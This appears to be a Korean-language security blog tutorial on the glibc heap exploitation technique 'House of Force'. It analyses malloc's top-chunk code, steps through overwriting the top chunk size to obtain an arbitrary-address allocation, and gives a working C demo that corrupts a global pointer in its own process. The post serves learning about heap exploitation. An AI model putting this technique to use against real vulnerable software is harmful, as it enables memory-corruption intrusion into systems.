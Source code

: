 ```yaml
---
layout: post
title: "House of Force"
author: "B3LLz"
tags: exploit-tech
---
```


# House of Force

House of Force attack은 top chunk를 이용한 공격이다.

정확히는 Top chunk의 size를 조작하여 임의의 주소에 힙 청크를 할당시킬 수 있는 공격이다.

# Top Chunk 처리 코드 분석

다음은 `malloc.c` 의 소스코드에서 Top Chunk를 처리하는 `_int_malloc()`의 일부분이다.

```c
victim = av->top;  // top chunk의 주소를 가져옴.
size = chunksize (victim);  // top chunk의 size를 구함.

if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
  {
    remainder_size = size - nb;
    remainder = chunk_at_offset (victim, nb);
    av->top = remainder;
    set_head (victim, nb | PREV_INUSE |
              (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head (remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk (av, victim, nb);
    void *p = chunk2mem (victim);
    alloc_perturb (p, bytes);
    return p;
  }
```

1. Top Chunk의 주소와 크기를 저장한다(`victim = av→top`, `size = chunksize(victim)`).
2. Top Chunk의 크기가  `nb + MINSIZE` (요청받은 Chunk의 크기 + Chunk의 최소 크기)보다 크거나 같은지 검사한다.
3. Top Chunk의 크기`size`에서 `nb`를 빼준 값을 `remainder_size`에 저장한다.
4. `**chunk_at_offset` 매크로를 통해 반환된 값을 `remainder` 에 저장한다. `chunk_at_offset` 매크로는 아래와같이 정의되어 있다.**
   
    ```c
    #define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
    ```
    
    따라서 Top Chunk의 주소 값 `victim`에 `nb`를 더해준 값을 반환한다.
    
5. `remainder`는 다시 Top Chunk(`av→top`)에 저장한다.
6. `set_head`를 통해 Chunk의 header 부분을 setting 해주고 힙 영역에 메모리를 할당한다.

# House of Force Attack Flow

1. `malloc()`으로 힙 영역에 메모리를 할당한다.
   
    ![hof1](/images/hof1.png)
    
2. Top Chunk의 size 값을 `0xffffffff`(32bit)나  `0xffffffffffffffff`(64bit) 값으로 덮어쓴다.
    - 위에서 설명했던 것처럼`_int_malloc`에서 Top Chunk의 크기와 할당을 요청받은 크기를 비교하는 조건문을 참으로 만들어 힙 영역에 메모리를 할당할 수 있게 한다.
    
    ![hof2](/images/hof2.png)
    
3. 원하는 주소를 할당 받기 위해 아래의 값을 `malloc()` 인자로 전달한다.
   
    [`할당 받고자하는 메모리 주소 - Chunk header size - Top Chunk addr - Chunk header size`]
    
    ex) `0x601048 - 0x10 - 0x6024A0 - 0x10 = 0xffffffffffffeb88`
    
    - 계산된 값을 `malloc()`의 인자로 넣어주게 되면 인자로 넣어준 크기만큼 메모리를 할당하게 되는데 위에서 설명한 `chunk_at_offset` 매크로를 통해 Top Chunk의 주소가   `top chunk 주소 + 할당 요청 크기`가 된다.
    
    ![hof3](/images/hof3.png)
    
4. 그리고 다시 한 번 `malloc()`을 호출하면 원하는 주소를 반환한다.
    - 다시 한 번 `malloc()`을 해줌으로써 Target Address에 메모리가 할당된다.
    
    ![hof4](/images/hof4.png)
    

# Example

아래의 코드는 다음과 같은 동작을 하며 Target Address는 `0x601048` 이다.

1. 128byte 크기의 메모리를 할당한다.
2. Top Chunk의 Size를 `0xffffffffffffffff`으로 Overwrite 한다.
3. House of Force 공격을 하기 위해 메모리 할당해줄 크기를 구한다.
    1. `(uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18`에서 `0x18`인 이유는 Target Address가 `0x601048`로 되어있기 때문에 보다 정확하게 할당해주기 위해서 Target Address의 메타데이터 크기인 `0x10`에서 `0x8`을 더 빼주었다.
    2. 힙은 16byte 단위로 메모리를 할당해주기 때문에 `0x10`만 빼주어도 `0x18`을 빼준 것과 동일한 주소에 할당을 해주지만 정확한 위치에 할당해주기 위함이다.
4. `malloc()`으로 메모리 할당을 한 번 더 해주면 Target Address의 값을 변조할 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

char* target = "Target!!!";
char* exploit = "EXPL0I7!!!!";

int main(int argc, char* argv[]){
    uint64_t* buf1, *buf2, *buf3;
    uint64_t* top_chunk_size;
    uint64_t* top_chunk;

    printf("==Before House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);
    printf("Target Addr: %p\n\n", &target);

    printf("1. malloc(128)\n");
    buf1 = malloc(128); // Memory Alloc

    top_chunk = &buf1[16];       // Top Chunk Addr
    top_chunk_size = &buf1[17];  // Top Chunk Size Addr

    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Top Chunk Size Overwrite */
    printf("2. OverWrite Top Chunk Size\n");
    *top_chunk_size = 0xffffffffffffffff;
    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Calculate Address to House of Force */
    uint64_t calc = (uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18;
    printf("3. House of Force!!\n");

    printf("Calc : %lx\n", calc);
    printf("malloc(0x%lx)\n", calc);

    /* House of Force */
    buf2 = malloc(calc);
    printf("[+] buf2 addr: %p\n", buf2);

    /* One More Allocation */
    buf3 = malloc(128);
    printf("[+] buf3 addr: %p\n\n", buf3);

    buf3[1] = (uint64_t)exploit;

    printf("==After House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);

    return 0;
}
```

**Reference**
> [Lazenca_House of Force (Korean)](https://www.lazenca.net/pages/viewpage.action?pageId=1148018)
>
> [Dreamhack - House of Force](https://learn.dreamhack.io/16#71)
